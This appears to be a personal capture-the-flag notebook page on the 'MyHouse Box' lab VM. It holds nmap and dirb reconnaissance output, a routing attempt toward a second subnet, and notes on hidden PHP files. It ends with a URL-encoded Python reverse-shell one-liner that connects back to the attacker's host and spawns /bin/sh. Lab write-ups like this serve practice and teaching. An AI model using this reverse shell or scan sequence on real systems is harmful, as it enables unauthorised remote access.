








Index
- BasicPenTestingBox
- BasicPenTestingBox2
- bee box
- BossPlayer
- CyberChallenge19
- Dawn
- DC-1
- DC-2
- DC-3
- DerpNStik
- EVM
- Fowsniff
- Gemini Inc 1
- JIS_CTF
- mullidae
- PumpkinFestival
- PumpkinGarden
- PumpkinRaising
- QuaoarCTFHackfest2016
- Rickdiculously Easy
- silky02
- silky1
- Typhoon
- VMS to try
- xss challenges
- Blue
- mr robot
- Unfinished VMS
- CasinoRoyale
- WinterMute Straylight
- connect the dots (unfinished)
- arsenal
- heist
- MyHouse Box
- Sputnik
- Node
- HackInOs
- Seattle
- DC416-Galahad
- Not a Box
- ICE
MyHouse Box
To a long time to get this to work:
- had to use vmware player instead of virtual box with NAT instead of host only adapter

root@kali:~/Downloads# ping 172.16.116.128
PING 172.16.116.128 (172.16.116.128) 56(84) bytes of data.
root@kali:~/Downloads# nmap -PS 172.16.116.1-255
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-11 11:43 EST
Nmap scan report for 172.16.116.1
Host is up (0.0000080s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
111/tcp open rpcbind
902/tcp open iss-realsecure
Nmap scan report for 172.16.116.128
Host is up (0.00042s latency).
Not shown: 994 closed ports
PORT STATE SERVICE
22/tcp open ssh
25/tcp open smtp
443/tcp open https
8008/tcp open http
10000/tcp open snet-sensor-mgmt
20000/tcp open dnp ---> distributed network protocol
MAC Address: 00:0C:29:DF:DC:3E (VMware)
Nmap scan report for 172.16.116.254
Host is up (0.000076s latency).
All 1000 scanned ports on 172.16.116.254 are filtered
MAC Address: 00:50:56:F0:8D:E8 (VMware)
Nmap done: 255 IP addresses (3 hosts up) scanned in 13.36 seconds
root@kali:~/Downloads#

FLAG 1:

root@kali:~# dirb http://172.16.116.128:8008/ /usr/share/wordlists/dirb/common.txt
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Mon Nov 11 11:46:21 2019
URL_BASE: http://172.16.116.128:8008/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://172.16.116.128:8008/ ----
+ http://172.16.116.128:8008/.bashrc (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/.forward (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/.history (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/.passwd (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/.perf (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/.profile (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/.rhosts (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/.ssh (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/admin.cgi (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/admin.php (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/catinfo (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/certificate (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/certificates (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/com (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/console (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/crossdomain.xml (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/css (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/decrypt (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/doc (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/em (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/encrypt (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/f (CODE:200|SIZE:59)
+ http://172.16.116.128:8008/favicon.ico (CODE:200|SIZE:0)
+ http://172.16.116.128:8008/flag (CODE:200|SIZE:18)
FLAG 2:

FLAG 3:

root@kali:~# nmap -A -p- 172.16.116.128
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-11 11:53 EST
Nmap scan report for 172.16.116.128
Host is up (0.00043s latency).
Not shown: 65526 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 6f:a7:72:5b:0d:81:8e:a5:40:6a:75:62:0c:f4:73:1a (RSA)
| 256 fb:61:87:c4:1f:18:da:dc:96:2b:65:08:ac:19:0a:fe (ECDSA)
|_ 256 92:4a:17:6c:4d:68:5e:6a:1b:89:94:17:e9:81:33:3a (ED25519)
25/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_smtp-commands: Couldn't establish connection on port 25
443/tcp open ssl/https Apache/2.4.29 (Ubuntu)
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
8008/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
8111/tcp open unknown
| fingerprint-strings:
| GetRequest, HTTPOptions:
| HTTP/1.1 200 OK
| Date: Mon, 11 Nov 2019 16:52:41 GMT
| Server: {{tryharder:114}}
| Vary: Accept-Encoding
| Content-Length: 218
| Connection: close
| Content-Type: text/html; charset=UTF-8
| <html>
| <body bgcolor=gray>
| <center>
| /><br /><br />
| HELLO<br /><br />
| STRANGE GAME.<br />
| ONLY WINNING MOVE IS<br />
| PLAY.<br /><br />
| ABOUT A NICE GAME OF CHESS?<br /><br />
| </body>
| </html>
| Help:
| HTTP/1.1 400 Bad Request
| Date: Mon, 11 Nov 2019 16:52:56 GMT
| Server: {{tryharder:114}}
| Content-Length: 300
| Connection: close
| Content-Type: text/html; charset=iso-8859-1
| <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
| <html><head>
| <title>400 Bad Request</title>
| </head><body>
| <h1>Bad Request</h1>
| <p>Your browser sent a request that this server could not understand.<br />
| </p>
| <hr>
| <address>{{tryharder:114}} Server at 172.31.200.85 Port 80</address>
| </body></html>
| RTSPRequest:
| HTTP/1.1 400 Bad Request
| Date: Mon, 11 Nov 2019 16:52:41 GMT
| Server: {{tryharder:114}}
| Content-Length: 300
| Connection: close
| Content-Type: text/html; charset=iso-8859-1
| <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
| <html><head>
| <title>400 Bad Request</title>
| </head><body>
| <h1>Bad Request</h1>
| <p>Your browser sent a request that this server could not understand.<br />
| </p>
| <hr>
| <address>{{tryharder:114}} Server at 172.31.200.85 Port 80</address>
|_ </body></html>
8112/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
8115/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Anchor CMS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: My posts and thoughts - IT222 Blog
10000/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
20000/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8111-TCP:V=7.80%I=7%D=11/11%Time=5DC9920A%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,194,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Mon,\x2011\x20Nov\x20
SF:2019\x2016:52:41\x20GMT\r\nServer:\x20{{tryharder:114}}\r\nVary:\x20Acc
SF:ept-Encoding\r\nContent-Length:\x20218\r\nConnection:\x20close\r\nConte
SF:nt-Type:\x20text/html;\x20charset=UTF-8\r\n\r\n<html>\n<body\x20bgcolor
SF:=gray>\n<center>\n<br\x20/><br\x20/><br\x20/>\nHELLO<br\x20/><br\x20/>\
SF:nA\x20STRANGE\x20GAME\.<br\x20/>\nTHE\x20ONLY\x20WINNING\x20MOVE\x20IS<
SF:br\x20/>\nNOT\x20TO\x20PLAY\.<br\x20/><br\x20/>\nHOW\x20ABOUT\x20A\x20N
SF:ICE\x20GAME\x20OF\x20CHESS\?<br\x20/><br\x20/>\n<br\x20/>\n</body>\n</h
SF:tml>\n")%r(HTTPOptions,194,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Mon,\x20
SF:11\x20Nov\x202019\x2016:52:41\x20GMT\r\nServer:\x20{{tryharder:114}}\r\
SF:nVary:\x20Accept-Encoding\r\nContent-Length:\x20218\r\nConnection:\x20c
SF:lose\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\n\r\n<html>\n<bo
SF:dy\x20bgcolor=gray>\n<center>\n<br\x20/><br\x20/><br\x20/>\nHELLO<br\x2
SF:0/><br\x20/>\nA\x20STRANGE\x20GAME\.<br\x20/>\nTHE\x20ONLY\x20WINNING\x
SF:20MOVE\x20IS<br\x20/>\nNOT\x20TO\x20PLAY\.<br\x20/><br\x20/>\nHOW\x20AB
SF:OUT\x20A\x20NICE\x20GAME\x20OF\x20CHESS\?<br\x20/><br\x20/>\n<br\x20/>\
SF:n</body>\n</html>\n")%r(RTSPRequest,1DD,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\nDate:\x20Mon,\x2011\x20Nov\x202019\x2016:52:41\x20GMT\r\nServer
SF::\x20{{tryharder:114}}\r\nContent-Length:\x20300\r\nConnection:\x20clos
SF:e\r\nContent-Type:\x20text/html;\x20charset=iso-8859-1\r\n\r\n<!DOCTYPE
SF:\x20HTML\x20PUBLIC\x20\"-//IETF//DTD\x20HTML\x202\.0//EN\">\n<html><hea
SF:d>\n<title>400\x20Bad\x20Request</title>\n</head><body>\n<h1>Bad\x20Req
SF:uest</h1>\n<p>Your\x20browser\x20sent\x20a\x20request\x20that\x20this\x
SF:20server\x20could\x20not\x20understand\.<br\x20/>\n</p>\n<hr>\n<address
SF:>{{tryharder:114}}\x20Server\x20at\x20172\.31\.200\.85\x20Port\x2080</a
SF:ddress>\n</body></html>\n")%r(Help,1DD,"HTTP/1\.1\x20400\x20Bad\x20Requ
SF:est\r\nDate:\x20Mon,\x2011\x20Nov\x202019\x2016:52:56\x20GMT\r\nServer:
SF:\x20{{tryharder:114}}\r\nContent-Length:\x20300\r\nConnection:\x20close
SF:\r\nContent-Type:\x20text/html;\x20charset=iso-8859-1\r\n\r\n<!DOCTYPE\
SF:x20HTML\x20PUBLIC\x20\"-//IETF//DTD\x20HTML\x202\.0//EN\">\n<html><head
SF:>\n<title>400\x20Bad\x20Request</title>\n</head><body>\n<h1>Bad\x20Requ
SF:est</h1>\n<p>Your\x20browser\x20sent\x20a\x20request\x20that\x20this\x2
SF:0server\x20could\x20not\x20understand\.<br\x20/>\n</p>\n<hr>\n<address>
SF:{{tryharder:114}}\x20Server\x20at\x20172\.31\.200\.85\x20Port\x2080</ad
SF:dress>\n</body></html>\n");
MAC Address: 00:0C:29:DF:DC:3E (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE
HOP RTT ADDRESS
1 0.43 ms 172.16.116.128
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 194.33 seconds
root@kali:~#

FLAG:

root@kali:~# dirb http://172.16.116.128:8111/ /usr/share/wordlists/dirb/common.txt
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Mon Nov 11 11:59:01 2019
URL_BASE: http://172.16.116.128:8111/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://172.16.116.128:8111/ ----
+ http://172.16.116.128:8111/index.php (CODE:200|SIZE:218)
+ http://172.16.116.128:8111/server-status (CODE:403|SIZE:299)
-----------------
END_TIME: Mon Nov 11 11:59:04 2019
DOWNLOADED: 4612 - FOUND: 2
root@kali:~#
The address of the next box to attack: (was in the nmap scan)
<address>{{tryharder:114}} Server at 172.31.200.85 Port 80</address>
root@kali:~# ping 172.31.200.85
PING 172.31.200.85 (172.31.200.85) 56(84) bytes of data.
^C
--- 172.31.200.85 ping statistics ---
9 packets transmitted, 0 received, 100% packet loss, time 8172ms
root@kali:~#
→ You can't connect to directly you have to add the intermdiate to your routing table:
-> figure out which host to use
ip route add [target network] via [intermediate router]
there are 2: 172.16.116.1 and 172.16.116.254
root@kali:~# ip route add 172.31.200.0/24 via 172.16.116.1
root@kali:~#
---> didn't work
Use a stronger wordlist on port 8111
root@kali:~# dirb http://172.16.116.128:8111/ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -X php
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Mon Nov 11 13:25:39 2019
URL_BASE: http://172.16.116.128:8111/
WORDLIST_FILES: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
EXTENSIONS_LIST: (php) | (php) [NUM = 1]
-----------------
*** Generating Wordlist...
-→ finds 3 files: b.php, c.php, and index.php


Next flag: ls /var/www/html
-- Spawn a reverse shell:
python%20-c%20'import%20socket,subprocess,os;s%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.116.1",31337));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p%3dsubprocess.call(["/bin/sh","-i"]);'